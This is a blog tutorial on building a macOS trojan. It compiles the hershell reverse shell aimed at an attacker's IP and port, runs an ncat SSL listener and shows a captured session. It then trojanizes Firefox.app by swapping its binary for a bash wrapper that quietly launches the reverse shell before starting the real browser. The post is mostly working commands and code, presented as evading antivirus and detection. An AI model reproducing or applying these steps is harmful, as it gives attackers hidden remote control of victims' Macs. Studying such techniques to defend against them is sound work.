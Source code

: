 ```yaml
---
title: 'Building a MacOS Trojan'
layout: post
permalink: building-mac-trojan
tags: all, mac, cybersecurity
---
```


This article will outline a simple method I used for building and deploying malware on MacOS. I wanted to do this to prepare for reading Patrick Wardle's book [The Art of Mac Malware](https://taomm.org/).

## Setting up the Reverse Shell:

A simple reverse shell will serve as the base malicious payload that will be executed on the victim machine. I like this method because it is extremely simple and should evade antivirus.

I'm going to use [hershell](https://github.com/lesnuages/hershell), a very simple, cross-platform reverse shell client written in Go. I'll compile the client and server on an Arch Linux machine.

### Setup Hershell:

```bash
pacman -Sy --noconfirm go
```

Since I don't need the go environment to persist on my server, let's set the `GOPATH` variable to `/tmp/go` and grab hershell:

```bash
export GOPATH=/tmp/go
go get github.com/lesnuages/hershell
go get github.com/lesnuages/hershell/shell
```

### Compile Hershell for MacOS Victim:

Now prepare and compile hershell for the MacOS victim (change the `LHOST` and `LPORT` variables to your attacking machine/server):

```bash
cd /tmp/go/src/github.com/lesnuages/hershell/
make depends

make macos64 LHOST=192.168.1.50 LPORT=5000
```

The MacOS binary for the victim machine should now be available at `/tmp/go/src/github.com/lesnuages/hershell/hershell`:

```bash
❯ file /tmp/go/src/github.com/lesnuages/hershell/hershell
/tmp/go/src/github.com/lesnuages/hershell/hershell: Mach-O 64-bit x86_64 executable
```

### Setup the Malicious Listener on Server:

Generate the server certificate for hershell and install nmap so that we can use `ncat` as the listener on the attacking server:

```bash
cd /tmp/go/src/github.com/lesnuages/hershell/
make depends

pacman -Sy --noconfirm nmap
```

Then run the listener on the attacking machine:

```bash
ncat --ssl --ssl-cert /tmp/go/src/github.com/lesnuages/hershell/server.pem --ssl-key /tmp/go/src/github.com/lesnuages/hershell/server.key -lvp 5000
```

This is what it looks like when a session is established:

```bash
❯ ncat --ssl --ssl-cert /tmp/go/src/github.com/lesnuages/hershell/server.pem --ssl-key /tmp/go/src/github.com/lesnuages/hershell/server.key -lvp 5000
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::5000
Ncat: Listening on 0.0.0.0:5000
Ncat: Connection from 192.168.1.2.
Ncat: Connection from 192.168.1.2:52866.
[hershell]> whoami
heywoodlh
[hershell]> echo $HOSTNAME
unix-machine
```


## Trojanize an Application:

I'm going to trojanize Firefox since I use Firefox a ton. This method is super simplistic, but it gets the job done. And most likely, it wouldn't be detected unless a user was vigilant.

I'm going to perform the following commands on a Mac with Firefox already installed. You could replace Firefox with another application if you wanted to.

Copy Firefox.app:

```bash
cp -r /Applications/Firefox.app /tmp/Firefox-trojan.app
```

Place the `hershell` binary that you created on the attacking server in `/tmp/Firefox-trojan.app/Contents/MacOS`.

Rename the original Firefox binary file:

```bash
cd /tmp/Firefox-trojan.app/Contents/MacOS
mv firefox firefox.orig
```

Now create a shell script in place of the `firefox` binary that will run hershell and then will run the original `firefox` binary:

```bash
touch firefox
chmod +x firefox
```

Then add the following content to the new `firefox` file:

```bash
#!/usr/bin/env bash

full_path=$(dirname $(realpath $0))

/usr/bin/screen -dmS reverse-shell ${full_path}/hershell

${full_path}/firefox-bin
```

This method will use the `screen` command to run hershell in the background with a session name of `reverse-shell`. This method is not discrete at all, but I don't really care in this case.


## Profit:

When the Firefox-trojan.app is opened, it should attempt to create a reverse shell with the attacking server that is listening for a connection.

![alt text](../images/trojan-firefox.png "Trojanized Firefox")

